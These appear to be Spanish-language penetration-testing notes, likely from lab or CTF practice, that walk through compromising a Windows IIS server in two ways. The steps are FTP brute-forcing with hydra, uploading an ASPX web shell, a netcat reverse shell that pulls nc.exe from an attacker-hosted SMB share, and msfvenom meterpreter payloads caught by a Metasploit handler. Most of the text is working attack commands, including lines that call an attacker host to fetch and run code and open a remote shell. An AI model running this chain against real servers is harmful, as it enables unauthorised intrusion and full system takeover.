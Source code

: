 ## OPCION 1

Conseguir acceso remoto a un servidor que este ejecutando IIS, se da en maquinas Windows. Al subir un archivo .ASPX podemos introducir código malicioso para conseguir una intrusión remota.

Hacemos para empezar un [[00. Apuntes/01. Herramientas/NMAP|NMAP]] hacia las maquina
Vemos que esta levantado el servicio Microsoft IIS
Después debemos de hacer FUZZING sobre la IP para ver que mas podemos encontrar, usaremos DIRB
`dirb http://<Ip_Victima>`

Al no encontrar nada deberemos de probar haciendo fuerza bruta al protocolo FTP con [[HYDRA]]
`hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt ftp://<Ip_Victima`

Obtendremos un Usuario y Contraseña para poder acceder vía FTP
Una vez hayamos accedido usamos el comando `dir` para ver los directorios
Una vez tenemos acceso a los archivos debemos crear un archivo .ASPX, en Kali hay un archivo con esta extensión ya, lo podremos buscar con el siguiente comando
`find / -name cmdasp.aspx 2>/dev/null` deberemos copiarlo a nuestro directorio actual de trabajo.

Para subir el archivo al servidor ISS podemos usar el comando `put <nopmbre_del_archivo-aspx` dentro del servidor, ahora desde el navegador podemos apuntar hacia el archivo. Obtendremos un cuadro de texto en el que podremos ejecutar comandos .

Deberemos de ejecutar un comando el cual nos crea un recurso compartida que aloja un netcat.exe y desde ahí podemos acceder a la maquina victima.
El archivo lo buscamos en Kali con el siguiente comando `find / -name nc.exe 2>/dev/null`, nos lo copiamos al directorio de trabajo.

Vamos a alojar un recurso compartido con IMPACKET `impacket-smbserver recurso $(pwd) -smb2support`

En otra pestaña nos ponemos a escuchar con [[NETCAT]] 
`nc -lvnp 444`

Ahora en el navegador introducimos el siguiente comando
`\\<Ip_Atacante>\recurso\nc.exe -e cmd.exe <Ip_Atacante> 444`

Así obtendremos una ReverseShell.
Ahora deberemos de escalar esta sesión a un Meterpreter para poder realizar una escalada de privilegios.
Usaremos la herramienta [[00. Apuntes/01. Herramientas/MSFVENOM|MSFVENOM]] con el siguiente comando
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Ip_Atacante> LPORT=444 -f exe -o shell.exe`

Este archivo le compartimos con la maquina victima, podemos probar con `wget` o `curl` y así compartirlo con un servido HTTP de Python, en caso de que no este instalados tendremos que levantar de nuevo otro recurso compartido `impacket-smbserver recurso $(pwd) -smb2support`.
En la maquina victima nos ubicamos en un directorio en el que tengamos permisos de escritura como es `temp` en el nos podemos bajar el archivo shell.exe usando el comando `copy \\<Ip_Atacante>\recurso\shell.exe shell.exe`

Una vez tenemos el archivo en la maquina victima nos abrimos Metasploit y nos ponemos en escucha para poder recibir la sesión del Meterpreter
`use multi/handler`
`show options`
`set LHOST <Ip_Atacante>`
`set LPORT 444`
`set PAYLOAD windows/meterpreter/reverse_tcp` El creado con [[00. Apuntes/01. Herramientas/MSFVENOM|MSFVENOM]]
`run`

Ahora en la maquina victima en la que tenemos el archivo `shell.exe` lo ejecutamos con el comando `shell.exe` y obtendremos una sesión de Meterpreter 

## OPCION 2

Los primeros pasos del reconocimiento son los mismos

Después crearemos un archivo malicioso con [[00. Apuntes/01. Herramientas/MSFVENOM|MSFVENOM]]
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=>Ip_Atacante> LPORT=444 -f aspx -o shell.aspx`

Ahora accedemos vía FTP
Copiamos el archivo creado con [[00. Apuntes/01. Herramientas/MSFVENOM]] `put shell.aspx`
Nos ponemos a la escucha con Metasploit
`use multi/handler`
`show options`
`set LHOST <Ip_Atacante>`
`set LPORT 444`
`set PAYLOAD windows/meterpreter/reverse_tcp` El creado con [[00. Apuntes/01. Herramientas/MSFVENOM|MSFVENOM]]
`run`

Ejecutamos el fichero subido desde el navegador poniendo la IP de la maquina y el nombre del fichero .ASPX
Así obtendremos la sesión de Meterpreter